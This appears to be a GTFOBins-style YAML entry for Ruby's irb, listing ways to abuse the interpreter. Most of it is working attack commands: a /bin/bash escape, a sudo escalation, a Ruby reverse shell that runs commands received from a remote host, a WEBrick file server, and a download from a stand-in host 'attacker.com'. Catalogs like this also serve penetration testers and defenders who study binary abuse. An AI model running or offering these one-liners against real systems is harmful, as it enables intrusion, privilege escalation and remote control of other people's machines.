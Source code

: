 ```yaml
---
functions:
  shell:
    - code: |
        irb
        exec '/bin/bash'
  reverse-shell:
    - description: Run `nc -lvp RPORT` on the attacker box to receive the shell.
      code: |
        export RHOST='127.0.0.1'
        export RPORT=9000
        irb
        require 'socket'; exit if fork;c=TCPSocket.new(ENV["RHOST"],ENV["RPORT"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read} end
  file-upload:
    - description: Serve files in the local folder running an HTTP server on port 8080.
      code: |
        irb
        require 'webrick'; WEBrick::HTTPServer.new(:Port => 8000, :DocumentRoot => Dir.pwd).start;
  file-download:
    - description: Fetch a remote file via an HTTP GET request and store it in `PWD`.
      code: |
        export URL=http://attacker.com/file_to_get
        export FILE=file_to_save
        irb
        require 'open-uri'; download = open(ENV['URL']); IO.copy_stream(download, ENV['FILE'])
  sudo:
    - code: |
        sudo irb
        exec '/bin/bash'
---
```

